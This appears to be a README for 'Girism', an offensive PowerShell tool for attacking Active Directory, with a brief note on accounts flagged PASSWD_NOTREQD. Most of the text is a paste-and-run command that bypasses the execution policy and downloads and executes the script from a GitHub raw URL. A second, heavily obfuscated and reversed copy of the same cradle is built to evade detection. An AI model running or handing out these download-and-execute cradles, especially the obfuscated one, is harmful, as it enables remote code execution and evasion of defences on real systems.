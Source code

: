 # Girism
*Automating Penetration testing of Active Directory*

Import-Module .\Girism.ps1
Type Girism and then allow the script to load into the current Powershell session.
Follow the on-screen instructions afterwards.

IEX:

Set-ExecutionPolicy Bypass -Scope Process -Force; [System.Net.ServicePointManager]::SecurityProtocol = [System.Net.ServicePointManager]::SecurityProtocol -bor 3072; iex ((New-Object System.Net.WebClient).DownloadString('https://raw.githubusercontent.com/IAMinZoho/Girism/main/Girism.ps1'))

##Empty password in Active Directory: I found out that the reason for an empty password in Active Directory can be found here – in the UserAccountControl Attribute.
In this attribute the flag “PASSWD_NOTREQD” can be set. If this flag is set, a domain administrator can issue an empty password, evading the password policy.
For accounts with the flag “PASSWD_NOTREQD” set, the attribute “UserAccountControl” has the value 544.

@@@@@@@

IEX:Reverse entire command after concatenating:


" $(SeT-iTEm 'vaRiABlE:OFs'  '') "+ ( [STrINg] [rEGEX]::MatChes( "xEI |)93]rahC[,'1LI' eCAlpEr-  )')'+')'+'1LI1sp.msiriG'+'/nia'+'m/msi'+'riG/o'+'h'+'oZniMAI/moc.'+'tne'+'tnoc'+'resubu'+'ht'+'ig'+'.wa'+'r//:sp'+'tth1LI'+'(gnirtSdaolnw'+'oD.)tneilCb'+'eW.t'+'e'+'N.met'+'syS '+'t'+'ce'+'jbO-weN(( xei '+';2703 rob'+'- locot'+'orPytiruceS'+'::]rega'+'naM'+'tnioPecivreS.teN.m'+'et'+'syS[ = l'+'o'+'cotorPytiruce'+'S:'+':]rega'+'naM'+'tnioPe'+'civr'+'eS.teN.'+'me'+'tsy'+'S[ ;'+'e'+'croF-'+' ss'+'ecorP '+'ep'+'ocS- s'+'sapyB ycilo'+'P'+'noituc'+'exE-teS'(( " , '.' ,'R'+'Ig'+'httoL'+'eFt') | %{$_ })+"$( SET-ITeM 'variAble:OFs'  ' ' )" | & ( $enV:COmsPEc[4,15,25]-JoIN'')
